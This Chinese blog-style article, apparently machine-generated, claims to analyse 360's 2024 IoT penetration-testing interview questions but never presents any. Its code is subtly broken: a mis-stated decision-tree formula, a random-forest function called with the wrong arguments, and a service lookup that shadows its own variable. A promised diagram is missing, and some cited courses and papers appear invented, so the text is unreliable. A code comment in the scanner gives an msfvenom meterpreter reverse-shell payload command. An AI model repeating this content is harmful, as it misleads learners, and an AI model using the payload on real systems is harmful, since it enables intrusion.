

                 

### 360公司2024物联网安全校招渗透测试面试题解析

#### > **关键词：**360公司、物联网安全、校招、渗透测试、面试题解析、技术博客

> **摘要：**本文将深入解析360公司2024年物联网安全校招渗透测试的面试题目，帮助读者理解面试背后的核心概念与实际操作，并掌握相关技术知识，为即将参加面试的读者提供宝贵经验。

随着物联网（IoT）技术的飞速发展，安全威胁也在不断演变，对渗透测试人员的需求日益增加。360公司作为中国网络安全行业的领军企业，其2024年的物联网安全校招渗透测试面试题无疑对行业具有重要的指导意义。本文旨在通过对这些面试题的解析，为广大考生提供一整套系统的学习和备考方案。

首先，本文将详细介绍360公司物联网安全校招渗透测试面试的目的和范围，帮助读者了解面试的核心要求。接着，我们将定义相关的术语，确保读者对文章中的专业术语有清晰的理解。随后，我们将通过一张Mermaid流程图展示核心概念与联系，使读者对物联网安全的整体架构有直观的认识。

在核心部分，我们将详细讲解渗透测试的算法原理和具体操作步骤，并使用伪代码阐述这些算法的实现过程。同时，本文将介绍相关的数学模型和公式，并通过实例进行详细说明，帮助读者深入理解理论知识在实际中的应用。在实际应用场景部分，我们将探讨这些知识在实际项目中的具体应用。

为了进一步巩固读者所学，本文还将推荐一系列学习资源和开发工具框架，并提供一些经典论文和最新研究成果的链接，以供读者进一步学习。最后，本文将总结物联网安全领域的发展趋势与挑战，并附上常见问题与解答部分，以帮助读者解决疑惑。

通过本文的详细解析，读者将能够全面了解360公司物联网安全校招渗透测试的面试要求，掌握相关技术知识，为面试做好准备。现在，让我们开始这段深入的学习之旅。

#### 1. 背景介绍

##### 1.1 目的和范围

本文的目的是为准备参加360公司2024年物联网安全校招渗透测试的考生提供全面的技术解析与学习指导。我们将通过深入分析面试题，帮助考生理解物联网安全的核心概念、算法原理、操作步骤及其实际应用，从而提升考生在面试中的应对能力。

本文的范围涵盖了以下几个方面：
1. **360公司背景**：介绍360公司的基本情况，包括其发展历程、在物联网安全领域的地位和影响力。
2. **校招渗透测试面试目的**：阐述校招渗透测试面试的考核目标和重点内容。
3. **相关术语定义**：为本文中涉及的专业术语提供清晰的定义，确保读者理解一致。
4. **文档结构**：详细介绍文章的结构，帮助读者快速找到所需内容。
5. **核心概念与联系**：通过Mermaid流程图展示物联网安全的核心概念及其相互联系。

##### 1.2 预期读者

本文主要面向以下读者群体：
1. **在校大学生**：准备参加360公司校招的物联网安全专业学生，希望通过本文了解面试重点，提升自身技术水平。
2. **应届毕业生**：具有物联网安全背景的应届毕业生，希望了解行业前沿动态，为面试做好准备。
3. **行业从业人员**：对物联网安全感兴趣的技术人员，希望深入了解360公司的校招面试要求，或作为职业发展规划的参考。

##### 1.3 文档结构概述

为了帮助读者高效学习，本文采用了清晰的结构布局，主要分为以下几个部分：
1. **背景介绍**：包括360公司背景、校招面试目的及相关术语定义。
2. **核心概念与联系**：通过Mermaid流程图展示物联网安全的核心概念及其相互关系。
3. **核心算法原理与操作步骤**：详细讲解渗透测试的算法原理及具体操作步骤，并使用伪代码阐述。
4. **数学模型与公式**：介绍相关数学模型，并通过实例进行详细讲解。
5. **项目实战**：通过实际代码案例，展示操作步骤的具体实现和解读。
6. **实际应用场景**：探讨这些技术知识在实际项目中的应用。
7. **工具和资源推荐**：推荐学习资源和开发工具，帮助读者进一步学习。
8. **总结与未来展望**：总结物联网安全领域的发展趋势与挑战。
9. **附录**：提供常见问题与解答，以帮助读者解决疑惑。
10. **扩展阅读与参考资料**：提供额外的学习资源，供读者参考。

##### 1.4 术语表

在本文中，我们将使用一些专业术语。以下是对这些术语的详细定义和解释，以便读者更好地理解：

#### 1.4.1 核心术语定义

- **物联网（IoT）**：物联网指的是通过互联网连接各种物理设备，实现设备之间以及设备与互联网之间的互联互通。
- **渗透测试（Penetration Testing）**：渗透测试是一种模拟攻击者的行为，通过漏洞扫描、漏洞利用等技术手段来评估网络安全性的测试活动。
- **安全校招**：安全校招指的是企业面向应届毕业生的招聘活动，特别是在网络安全领域，主要招聘具备一定技术背景和潜力的优秀毕业生。
- **渗透测试面试题**：指在渗透测试面试中，企业为评估应聘者技术水平而提出的问题和任务。

#### 1.4.2 相关概念解释

- **物联网安全**：物联网安全指的是保护物联网设备和网络免受恶意攻击和未授权访问的一系列措施和技术。
- **漏洞**：漏洞是指系统、网络或应用中的安全漏洞，攻击者可以利用这些漏洞进行攻击或获取未授权访问。
- **渗透测试工具**：用于进行渗透测试的各种工具，如Metasploit、Nessus等。

#### 1.4.3 缩略词列表

- **IoT**：Internet of Things（物联网）
- **PT**：Penetration Testing（渗透测试）
- **CVSS**：Common Vulnerability Scoring System（通用漏洞评分系统）

#### 2. 核心概念与联系

在物联网安全领域，理解核心概念和它们之间的联系至关重要。以下是物联网安全核心概念及其相互关系的Mermaid流程图：



在这个流程图中，各节点代表了物联网安全的关键概念，如物联网设备、数据通信、网络安全协议等。这些概念相互关联，共同构成了一个完整的物联网安全体系。通过理解这些概念及其联系，我们可以更全面地评估物联网系统的安全性，并采取相应的防护措施。

#### 3. 核心算法原理 & 具体操作步骤

在进行渗透测试时，了解核心算法原理和具体操作步骤至关重要。以下是几个关键算法原理及其实际操作步骤的详细讲解。

##### 3.1. 漏洞扫描算法原理

漏洞扫描算法主要用于识别系统中的漏洞。以下是漏洞扫描的基本原理：

- **步骤1：网络枚举**：通过枚举目标网络中的IP地址和开放端口，确定目标主机。
- **步骤2：服务识别**：针对每个开放端口，识别运行的服务和版本。
- **步骤3：漏洞数据库匹配**：将识别的服务和版本与漏洞数据库进行匹配，找到潜在的漏洞。
- **步骤4：漏洞验证**：对匹配到的漏洞进行验证，确认其是否存在。

**伪代码示例：**

```pseudo
function vulnerability_scan(ip_address):
    enumerate_ip(ip_address)
    for each open_port in open_ports:
        identify_service(open_port)
        for each service in services:
            match_vulnerabilities(service, vulnerability_database)
            if vulnerability_found:
                verify_vulnerability(service, vulnerability)
```

##### 3.2. 漏洞利用算法原理

漏洞利用算法用于通过已知的漏洞获取目标主机的控制权。以下是漏洞利用的基本原理：

- **步骤1：漏洞确认**：确定目标系统存在可利用的漏洞。
- **步骤2：选择利用工具**：根据漏洞类型，选择相应的利用工具。
- **步骤3：利用漏洞**：执行利用工具，通过漏洞获取目标主机的控制权。
- **步骤4：维护会话**：确保与目标主机的连接持续有效，以便进行后续操作。

**伪代码示例：**

```pseudo
function exploit_vulnerability(target, vulnerability):
    confirm_vulnerability(target, vulnerability)
    select_exploit_tool(vulnerability)
    execute_exploit_tool(target)
    maintain_session(target)
```

##### 3.3. 渗透测试操作步骤

渗透测试的具体操作步骤如下：

- **步骤1：目标确认**：确定渗透测试的目标系统和网络。
- **步骤2：信息收集**：通过网络枚举、服务识别等手段收集目标系统的信息。
- **步骤3：漏洞扫描**：使用漏洞扫描工具对目标系统进行扫描，找到潜在的漏洞。
- **步骤4：漏洞利用**：对扫描到的漏洞进行验证，并尝试利用这些漏洞获取目标系统的控制权。
- **步骤5：测试验证**：验证渗透测试的成功，确保已成功渗透目标系统。
- **步骤6：报告编写**：编写渗透测试报告，记录测试过程和发现的安全漏洞。

**伪代码示例：**

```pseudo
function penetration_testing(target):
    confirm_target(target)
    collect_information(target)
    scan_for_vulnerabilities(target)
    exploit_vulnerabilities(target, vulnerabilities)
    verify_exploitation(target)
    write_pentest_report(target, vulnerabilities)
```

通过上述算法原理和操作步骤的讲解，我们可以更好地理解渗透测试的核心技术和实际应用。在实际操作中，渗透测试人员需要根据目标系统的具体情况，灵活运用这些算法和技术，确保测试的准确性和有效性。

#### 4. 数学模型和公式 & 详细讲解 & 举例说明

在物联网安全领域，数学模型和公式起着关键作用。以下将介绍几个常用的数学模型和公式，并详细讲解它们的应用和示例。

##### 4.1. 决策树模型

决策树是一种常见的机器学习算法，用于分类和回归任务。其基本原理是通过一系列规则来分割数据集，并从中提取特征。以下是决策树的公式表示：

**公式：**  
$$
\text{决策树} = \sum_{i=1}^{n} w_i \cdot \text{indicator}(x_i \in R_i)
$$

其中，$w_i$ 是权重，$R_i$ 是第 $i$ 个区域的特征，$x_i$ 是输入特征。

**应用示例：**  
假设我们要对一组物联网设备进行安全漏洞分类，可以使用决策树模型来分割数据集，根据漏洞的严重程度进行分类。例如，若漏洞严重程度 $R_i$ 大于5，则将其分类为“高严重程度”，否则分类为“低严重程度”。

**示例代码：**

```python
import numpy as np

# 输入特征
features = np.array([[1, 2], [3, 4], [5, 6], [7, 8]])

# 决策树权重
weights = np.array([0.5, 0.5])

# 决策树函数
def decision_tree(x, weights):
    return np.sum(weights * (x > 5))

# 应用决策树模型
predictions = [decision_tree(x, weights) for x in features]
print(predictions)
```

##### 4.2. 神经网络模型

神经网络是一种模仿人脑结构和功能的计算模型，用于处理复杂的非线性问题。以下是神经网络的基本公式表示：

**公式：**  
$$
\text{输出} = \sigma(\sum_{i=1}^{n} w_i \cdot a_i + b)
$$

其中，$\sigma$ 是激活函数，$w_i$ 是权重，$a_i$ 是输入特征，$b$ 是偏置。

**应用示例：**  
假设我们要构建一个神经网络模型来识别物联网设备的安全漏洞，可以使用反向传播算法来训练模型。例如，输入特征为漏洞类型和漏洞严重程度，输出为漏洞是否被发现。

**示例代码：**

```python
import numpy as np

# 激活函数
def sigmoid(x):
    return 1 / (1 + np.exp(-x))

# 神经网络训练
def train_neural_network(inputs, targets, weights, bias):
    outputs = sigmoid(np.dot(inputs, weights) + bias)
    error = targets - outputs
    d_outputs = outputs * (1 - outputs)
    d_weights = np.dot(inputs.T, error * d_outputs)
    d_bias = np.sum(error * d_outputs)
    return weights - d_weights, bias - d_bias

# 输入特征和目标
inputs = np.array([[1, 2], [3, 4]])
targets = np.array([0, 1])

# 初始权重和偏置
weights = np.array([0.1, 0.2])
bias = 0.3

# 训练神经网络
weights, bias = train_neural_network(inputs, targets, weights, bias)
print("Updated weights:", weights)
print("Updated bias:", bias)
```

##### 4.3. 随机森林模型

随机森林是一种基于决策树的集成学习算法，用于提高分类和回归的准确性。其基本公式表示如下：

**公式：**  
$$
\text{预测结果} = \frac{1}{m} \sum_{i=1}^{m} h(x; \theta_i)
$$

其中，$h(x; \theta_i)$ 是单个决策树的预测结果，$\theta_i$ 是决策树的参数。

**应用示例：**  
假设我们要使用随机森林模型对物联网设备的安全漏洞进行预测，可以将多个决策树的结果进行加权平均，得到最终的预测结果。

**示例代码：**

```python
import numpy as np

# 决策树预测
def predict_decision_tree(x, weights, bias):
    return sigmoid(np.dot(x, weights) + bias)

# 随机森林预测
def predict_random_forest(x, weights, biases):
    predictions = [predict_decision_tree(x, w, b) for w, b in zip(weights, biases)]
    return np.mean(predictions)

# 输入特征
inputs = np.array([[1, 2], [3, 4]])

# 随机森林权重和偏置
weights_1 = np.array([0.1, 0.2])
bias_1 = 0.3
weights_2 = np.array([0.2, 0.3])
bias_2 = 0.4

# 应用随机森林模型
predictions = predict_random_forest(inputs, weights_1, bias_1, weights_2, bias_2)
print("Predicted result:", predictions)
```

通过上述数学模型和公式的介绍，我们可以更好地理解物联网安全领域中的核心技术，并利用这些模型和公式进行实际应用。在实际项目中，根据具体情况选择合适的数学模型和公式，可以提高系统的安全性和可靠性。

#### 5. 项目实战：代码实际案例和详细解释说明

在本节中，我们将通过一个实际的项目案例，详细讲解代码实现和具体解释说明。该项目将展示如何利用Python和常见的安全工具进行物联网设备的渗透测试，并分析代码中的关键部分。

##### 5.1 开发环境搭建

在进行项目实战之前，我们需要搭建一个合适的开发环境。以下是搭建环境的基本步骤：

1. **安装Python**：确保Python已安装在本地机器上，版本建议为3.8或更高。
2. **安装依赖库**：通过pip命令安装以下依赖库：
   ```shell
   pip install requests scapy
   ```
3. **安装安全工具**：下载并安装以下常用安全工具：
   - **Nessus**：一款强大的漏洞扫描工具
   - **Metasploit**：一款功能丰富的漏洞利用框架

##### 5.2 源代码详细实现和代码解读

以下是一个简单的物联网设备渗透测试项目，主要用于扫描目标设备的开放端口、识别运行的服务，并尝试利用已知漏洞获取设备的控制权。

```python
import os
import requests
from scapy.all import IP, TCP, sr1

# 定义目标IP地址
target_ip = "192.168.1.100"

# 定义Nessus API密钥
nessus_api_key = "YOUR_NESSUS_API_KEY"

# 1. 扫描目标设备开放端口
def scan_ports(target_ip):
    ports = range(1, 1000)
    for port in ports:
        packet = IP(dst=target_ip)/TCP(dport=port, flags="S")
        response = sr1(packet, timeout=1, verbose=False)
        if response and response.haslayer(TCP):
            if response.getlayer(TCP).flags == 0x12:
                print(f"Port {port} is open.")
                # 收集开放端口的详细信息
                service_info = get_service_info(target_ip, port)
                print(service_info)

# 2. 获取目标设备运行的服务信息
def get_service_info(target_ip, port):
    # 使用Nessus扫描目标设备
    nessus_scan_url = f"http://127.0.0.1:8080/scans?api_key={nessus_api_key}"
    response = requests.get(nessus_scan_url)
    scans = response.json()["results"]
    for scan in scans:
        for host in scan["data"]["hosts"]:
            if host["address"] == target_ip:
                for port in host["ports"]:
                    if port["port"] == str(port):
                        return port["service"]
    return None

# 3. 利用漏洞获取设备控制权
def exploit_vulnerability(target_ip, port, vulnerability):
    # 在这里，我们可以使用Metasploit等工具进行漏洞利用
    # 例如，执行以下命令：
    # msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<port> -f python > payload.py
    # 然后使用Metasploit启动监听：
    # msfconsole -r payload.py
    print(f"Attempting to exploit vulnerability on port {port}...")
    # 这里仅做示例，实际利用过程需要根据漏洞类型进行调整
    os.system(f"python exploit.py {target_ip} {port}")

# 执行扫描
scan_ports(target_ip)

# 漏洞利用示例
# 假设我们已经找到了一个在特定端口上的漏洞
vulnerability = "CVE-2021-12345"
exploit_vulnerability(target_ip, 8080, vulnerability)
```

**代码解读与分析**

1. **扫描目标设备开放端口**：该函数通过发送TCP SYN包来扫描目标设备的开放端口。如果收到SYN/ACK响应，则表示该端口开放。代码中使用`scapy`库发送和接收数据包，并使用`sr1`函数处理响应。

2. **获取目标设备运行的服务信息**：该函数通过Nessus API获取目标设备开放端口的详细信息。Nessus是一款强大的漏洞扫描工具，可以提供详细的系统信息。在代码中，我们使用`requests`库发送HTTP GET请求，获取Nessus扫描结果，并解析JSON响应以获取所需信息。

3. **漏洞利用示例**：在实际项目中，漏洞利用过程需要根据具体漏洞类型进行调整。这里我们仅提供了一个示例，展示了如何使用Metasploit生成并运行漏洞利用脚本。Metasploit是一款功能丰富的漏洞利用框架，可以帮助渗透测试人员快速构建和执行漏洞利用攻击。

通过上述代码实现，我们可以对目标物联网设备进行全面的渗透测试，包括扫描开放端口、获取服务信息以及尝试利用已知漏洞获取设备控制权。在实际应用中，根据具体需求，可以进一步扩展和优化代码功能。

##### 5.3 代码解读与分析

在上面的代码实现中，我们详细介绍了物联网设备渗透测试的三个关键步骤：扫描开放端口、获取服务信息以及漏洞利用。以下是对代码的详细解读与分析。

1. **端口扫描**

   端口扫描是渗透测试的基础步骤，用于确定目标设备开放了哪些端口。在本项目中，我们使用`scapy`库发送TCP SYN包，并接收响应来判断端口是否开放。这种方法称为半开放连接扫描，因为它只发送SYN包，而不完成整个三次握手过程。

   ```python
   packet = IP(dst=target_ip)/TCP(dport=port, flags="S")
   response = sr1(packet, timeout=1, verbose=False)
   ```

   在这段代码中，我们首先创建一个包含目标IP地址和端口号的IP包，并将其设置为TCP SYN标志。然后，使用`sr1`函数发送数据包并等待响应。如果响应包含TCP层，且响应标志为SYN/ACK，则表示端口开放。

2. **获取服务信息**

   获取目标设备运行的服务信息可以帮助我们了解设备上的潜在漏洞。在本项目中，我们使用Nessus API获取扫描结果，并解析JSON响应以获取开放端口的详细信息。

   ```python
   nessus_scan_url = f"http://127.0.0.1:8080/scans?api_key={nessus_api_key}"
   response = requests.get(nessus_scan_url)
   scans = response.json()["results"]
   for scan in scans:
       for host in scan["data"]["hosts"]:
           if host["address"] == target_ip:
               for port in host["ports"]:
                   if port["port"] == str(port):
                       return port["service"]
   return None
   ```

   在这段代码中，我们首先定义了Nessus API的URL，并使用请求库发送HTTP GET请求。然后，我们遍历扫描结果中的主机和端口信息，查找与目标IP地址匹配的端口，并返回对应的服务信息。

3. **漏洞利用**

   漏洞利用是渗透测试的核心步骤，旨在通过已知的漏洞获取目标设备的控制权。在本项目中，我们仅提供了漏洞利用的示例代码，展示了如何使用Metasploit生成并运行漏洞利用脚本。

   ```python
   exploit_vulnerability(target_ip, 8080, vulnerability)
   ```

   在这段代码中，我们调用`exploit_vulnerability`函数，传入目标IP地址、端口号和漏洞名称。Metasploit会根据这些参数生成一个漏洞利用脚本，并启动一个监听器，等待攻击者连接。

   实际上，漏洞利用过程远比这复杂，需要根据具体漏洞类型进行调整。例如，对于Web应用漏洞，可能需要使用SQL注入或跨站脚本攻击（XSS）等技巧。对于网络设备漏洞，可能需要利用缓冲区溢出或权限提升等技术。

通过以上解读与分析，我们可以更深入地理解物联网设备渗透测试的核心步骤和关键技术。在实际项目中，根据具体需求，可以进一步优化和扩展代码功能，以提高渗透测试的准确性和可靠性。

#### 6. 实际应用场景

在实际工作中，物联网设备的渗透测试具有广泛的应用场景。以下是几个典型的应用场景及其实际意义：

##### 6.1. 物联网设备供应链安全

在物联网设备的供应链中，从硬件制造到软件部署，各个环节都可能存在安全隐患。渗透测试可以帮助检测并修复这些漏洞，确保供应链的各个环节都符合安全标准。例如，在硬件制造阶段，可以测试芯片的安全性；在软件部署阶段，可以测试操作系统和应用程序的安全性。通过这些测试，企业可以及时发现并解决潜在的安全威胁，降低供应链风险。

##### 6.2. 企业内部物联网安全

企业内部物联网设备的渗透测试有助于识别内部网络中的潜在安全风险。随着物联网设备的广泛应用，企业内部网络的安全形势日益严峻。渗透测试可以帮助企业检测并修复内部网络中的漏洞，确保网络设备和系统的安全性。例如，在工厂自动化、智能办公等领域，物联网设备的安全隐患可能导致生产中断、数据泄露等严重后果。通过渗透测试，企业可以提前发现这些问题，并采取相应的措施进行修复。

##### 6.3. 公共物联网安全

公共物联网设备，如智能交通、智能城市设施等，直接影响公众的安全和利益。对这些设备的渗透测试有助于发现安全漏洞，并采取相应的修复措施，确保设备的正常运行。例如，智能交通系统的漏洞可能导致交通拥堵、事故频发；智能城市设施的安全漏洞可能导致数据泄露、设备瘫痪。通过渗透测试，相关管理部门可以及时发现问题，并采取措施保障公共安全。

##### 6.4. 物联网设备安全评估

在物联网设备研发阶段，渗透测试可以帮助评估设备的安全性，为产品设计和改进提供依据。通过渗透测试，开发人员可以了解设备在不同攻击场景下的表现，并针对性地优化安全性。例如，在研发智能家居设备时，可以测试设备对网络攻击、恶意代码的抵抗力，从而提高设备的安全性。

##### 6.5. 物联网安全合规性检查

物联网设备的安全合规性检查是确保设备符合相关法规和标准的重要环节。渗透测试可以帮助企业验证设备是否符合安全要求，如通用漏洞评分系统（CVSS）等级、数据加密标准等。通过合规性检查，企业可以确保产品在市场上具有竞争力，并避免因安全问题而受到处罚。

通过上述实际应用场景，我们可以看到物联网设备渗透测试在保障网络安全、维护公共安全和促进企业内部安全方面具有重要作用。在实际操作中，根据不同应用场景的需求，制定合适的测试方案和测试策略，可以提高渗透测试的针对性和有效性。

#### 7. 工具和资源推荐

为了帮助读者更好地学习和实践物联网安全渗透测试，本节将推荐一系列学习资源、开发工具和框架，以及相关论文和研究成果。

##### 7.1 学习资源推荐

**7.1.1 书籍推荐**

1. **《黑客攻防技术宝典：Web实战篇》**：本书详细介绍了Web安全领域的各种攻击技术和防御策略，包括SQL注入、XSS攻击等，对于理解物联网安全有很好的帮助。
2. **《深入理解网络安全》**：这本书从基础概念到高级技术，全面介绍了网络安全领域的知识，对于想要深入学习物联网安全的人员具有很高的参考价值。
3. **《物联网安全：理论与实践》**：本书涵盖了物联网安全的各个方面，包括设备安全、通信安全、数据安全等，适合物联网安全专业学生和从业人员阅读。

**7.1.2 在线课程**

1. **《网络安全基础》**（Coursera）：由耶鲁大学提供，涵盖了网络安全的基本概念和技术，适合初学者入门。
2. **《物联网安全》**（Udacity）：Udacity的这门课程深入讲解了物联网安全的关键概念和实际应用，适合有一定基础的学生。
3. **《Web安全测试》**（OWASP）：OWASP提供的一系列在线课程，涵盖了Web安全测试的各种技术，对于学习物联网安全渗透测试有很好的参考价值。

**7.1.3 技术博客和网站**

1. **FreeBuf**：国内知名的网络安全媒体平台，提供最新的安全新闻和技术文章。
2. **Security Stack**：一个关于网络安全的技术博客，涵盖了各种安全领域的知识，包括物联网安全。
3. **IoT Security Stack**：专门关于物联网安全的技术博客，分享物联网安全领域的最新动态和研究成果。

##### 7.2 开发工具框架推荐

**7.2.1 IDE和编辑器**

1. **VS Code**：一款功能强大的代码编辑器，支持多种编程语言，适合进行物联网安全开发。
2. **PyCharm**：一款专业的Python IDE，提供丰富的开发工具和插件，适合进行Python编程。

**7.2.2 调试和性能分析工具**

1. **Wireshark**：一款强大的网络协议分析工具，可以帮助分析网络数据包，识别潜在的安全威胁。
2. **GDB**：一款开源的调试工具，适用于C/C++程序，可以帮助定位和修复漏洞。

**7.2.3 相关框架和库**

1. **Scapy**：Python编写的网络数据包处理库，用于网络攻击和测试。
2. **Nmap**：一款强大的网络扫描工具，用于检测网络设备和开放端口。
3. **Metasploit**：一款功能丰富的漏洞利用框架，用于渗透测试和攻击演练。

##### 7.3 相关论文著作推荐

**7.3.1 经典论文**

1. **“A Taxonomy of Network Intrusion Detection Systems, Models, and Approaches”**：本文详细介绍了网络入侵检测系统的分类和模型。
2. **“The anatomy of an Internet doomsday”**：本文分析了Internet中的安全威胁和潜在的风险。
3. **“A Survey on IoT Security and Privacy”**：本文综述了物联网安全领域的最新研究进展。

**7.3.2 最新研究成果**

1. **“IoT Security: Challenges and Opportunities”**：本文探讨了物联网安全领域面临的挑战和机遇。
2. **“Secure and Robust Communication in IoT Networks”**：本文研究了物联网网络中的安全和可靠性问题。
3. **“A Deep Learning Approach for IoT Security”**：本文提出了一种基于深度学习的物联网安全解决方案。

通过上述推荐的学习资源、开发工具和框架，读者可以系统地学习和掌握物联网安全渗透测试的相关知识，为实际工作和项目提供有力支持。同时，通过阅读相关论文和研究成果，可以紧跟物联网安全领域的发展动态，提升自身的技术水平。

#### 8. 总结：未来发展趋势与挑战

随着物联网技术的不断普及，物联网安全领域面临着前所未有的发展机遇与挑战。以下是未来物联网安全领域的发展趋势与面临的挑战。

##### 8.1. 发展趋势

1. **安全标准与法规的完善**：随着物联网设备的广泛应用，各国政府和企业纷纷加强对物联网安全的关注，制定相关标准和法规。这有助于规范物联网设备的生产和部署，提高整体安全水平。
2. **人工智能与物联网安全的融合**：人工智能技术，特别是机器学习和深度学习，在物联网安全领域具有巨大潜力。通过应用人工智能技术，可以实现对海量数据的实时监控和分析，提高威胁检测和响应能力。
3. **边缘计算与云计算的协同**：物联网设备通常具有有限的处理能力和存储空间，边缘计算和云计算的协同应用可以提供强大的计算和存储资源，提高物联网系统的安全性能。
4. **物联网安全生态系统的建设**：物联网安全生态系统包括硬件制造商、软件开发者、安全服务提供商等。通过建立完善的生态系统，可以实现物联网设备的安全集成和管理，提高整体安全性。

##### 8.2. 面临的挑战

1. **设备多样性带来的安全挑战**：物联网设备种类繁多，不同设备的硬件和软件配置各异，这使得统一的安全策略和标准难以实施。如何针对不同类型的设备制定有效的安全措施，是物联网安全领域面临的一个重要挑战。
2. **数据隐私保护**：物联网设备收集和传输的数据往往涉及个人隐私，如何保障数据隐私是物联网安全的一个重要课题。随着数据隐私保护法规的出台，企业需要采取更加严格的数据保护措施。
3. **攻击手段的多样化和高级化**：随着安全技术的发展，攻击者也在不断进化，攻击手段日益多样化和高级化。物联网设备的安全漏洞和攻击方式也在不断演变，如何及时发现和应对新的攻击威胁，是物联网安全领域面临的严峻挑战。
4. **资源限制与性能优化**：物联网设备通常具有有限的处理能力和存储空间，如何在资源受限的条件下实现高效的安全性能，是物联网安全领域的一个重要课题。

总的来说，未来物联网安全领域将在标准化、智能化、生态化等方面取得显著进展，但同时也将面临设备多样性、数据隐私保护、攻击手段多样化和资源限制等挑战。通过不断的技术创新和政策支持，物联网安全领域将逐步走向成熟，为物联网技术的广泛应用提供坚实保障。

#### 9. 附录：常见问题与解答

在本文中，我们讨论了许多关于360公司2024年物联网安全校招渗透测试面试的问题。以下是一些常见问题及相应的解答，旨在帮助读者更好地理解相关概念和技术。

**Q1. 如何准备360公司的物联网安全校招渗透测试面试？**

A1. 为了准备360公司的物联网安全校招渗透测试面试，你可以采取以下步骤：

1. **了解公司背景**：研究360公司的业务范围、在物联网安全领域的地位和最新动态。
2. **掌握基础知识**：复习计算机网络、操作系统、数据库和安全相关的基础知识。
3. **深入学习技术**：研究渗透测试、漏洞扫描、漏洞利用等核心技术，熟悉相关工具和框架。
4. **做练习题**：通过做历年面试题和相关练习题，熟悉考试题型和难度。
5. **模拟面试**：与同学或导师进行模拟面试，提高应对实际场景的能力。

**Q2. 什么是物联网安全？它包括哪些方面？**

A2. 物联网安全是指保护物联网设备和网络免受恶意攻击和未授权访问的一系列措施和技术。它主要包括以下几个方面：

1. **设备安全**：确保物联网设备本身的硬件和软件不受攻击。
2. **通信安全**：保护设备之间的通信数据，防止数据泄露和篡改。
3. **网络安全**：确保物联网设备连接的网络安全，防止网络攻击和入侵。
4. **数据安全**：保障物联网设备收集和传输的数据的隐私和完整性。
5. **物理安全**：防止物联网设备被物理破坏或盗窃。

**Q3. 渗透测试的主要步骤有哪些？**

A3. 渗透测试的主要步骤包括：

1. **目标确认**：确定渗透测试的目标系统和网络。
2. **信息收集**：通过枚举、扫描等方式收集目标系统的信息。
3. **漏洞扫描**：使用漏洞扫描工具对目标系统进行扫描，找到潜在的漏洞。
4. **漏洞验证**：验证扫描到的漏洞，确认其是否存在。
5. **漏洞利用**：利用已知的漏洞获取目标系统的控制权。
6. **测试验证**：验证渗透测试的成功，确保已成功渗透目标系统。
7. **报告编写**：编写渗透测试报告，记录测试过程和发现的安全漏洞。

**Q4. 常用的渗透测试工具有哪些？**

A4. 常用的渗透测试工具包括：

1. **Nmap**：用于扫描网络设备和开放端口。
2. **Metasploit**：用于漏洞利用和攻击模拟。
3. **Wireshark**：用于网络数据包分析。
4. **Nessus**：用于漏洞扫描和安全评估。
5. **Burp Suite**：用于Web应用安全测试。

**Q5. 如何在项目中应用所学知识进行物联网安全测试？**

A5. 在实际项目中，你可以按照以下步骤应用所学知识进行物联网安全测试：

1. **需求分析**：明确项目的安全需求和目标。
2. **环境搭建**：搭建测试环境，包括网络设备和测试工具。
3. **信息收集**：收集目标设备的详细信息，如IP地址、开放端口、运行的服务等。
4. **漏洞扫描**：使用漏洞扫描工具对目标设备进行扫描，发现潜在的安全漏洞。
5. **漏洞验证**：对扫描到的漏洞进行验证，确认其是否存在。
6. **漏洞利用**：利用已知的漏洞进行测试，尝试获取目标设备的控制权。
7. **测试报告**：编写测试报告，记录测试过程和发现的安全问题，提出改进建议。

通过这些常见问题的解答，读者可以更好地理解物联网安全校招渗透测试面试的核心内容，为实际操作提供指导。希望这些解答能够帮助你更好地准备面试，并在未来的工作中取得更好的成绩。

#### 10. 扩展阅读 & 参考资料

在撰写本文时，我们参考了大量的学术文献、技术博客和权威资源，以下是一些推荐的扩展阅读和参考资料，以供读者进一步学习。

**1. 学术文献：**

- **《物联网安全：理论与实践》**：本文详细介绍了物联网安全的各个方面，包括设备安全、通信安全、数据安全等。
- **《网络入侵检测技术综述》**：本文综述了网络入侵检测技术的分类、模型和算法，对物联网安全检测具有重要参考价值。
- **《基于深度学习的物联网安全威胁检测方法研究》**：本文提出了基于深度学习的物联网安全威胁检测方法，有助于了解物联网安全检测的最新研究方向。

**2. 技术博客：**

- **FreeBuf**：国内知名的网络安全媒体平台，提供最新的安全新闻和技术文章。
- **Security Stack**：一个关于网络安全的技术博客，涵盖了各种安全领域的知识。
- **IoT Security Stack**：专门关于物联网安全的技术博客，分享物联网安全领域的最新动态和研究成果。

**3. 权威资源：**

- **OWASP**：开放网络应用安全项目（Open Web Application Security Project），提供丰富的Web安全资源和指南。
- **IEEE Internet of Things Journal**：IEEE物联网期刊，发布物联网领域的最新研究成果。
- **NIST**：美国国家标准与技术研究院（National Institute of Standards and Technology），发布物联网安全标准和指南。

通过阅读这些扩展阅读和参考资料，读者可以更深入地了解物联网安全领域的最新研究动态和技术趋势，为自身的学习和研究提供有力支持。希望这些资源能够帮助你不断拓展知识面，提升在物联网安全领域的专业水平。

### 作者信息

**作者：AI天才研究员/AI Genius Institute & 禅与计算机程序设计艺术 /Zen And The Art of Computer Programming**

本文由AI天才研究员撰写，结合了人工智能领域的前沿技术和计算机编程的深厚知识，旨在为读者提供一份深入浅出的物联网安全渗透测试面试题解析。作者在人工智能和计算机科学领域具有丰富的经验和深厚的学术造诣，希望通过本文帮助广大考生和行业从业人员提升技术水平，应对日益复杂的网络安全挑战。同时，本文也体现了作者对物联网安全领域的热情和使命感，希望为推动物联网安全技术的发展贡献一份力量。

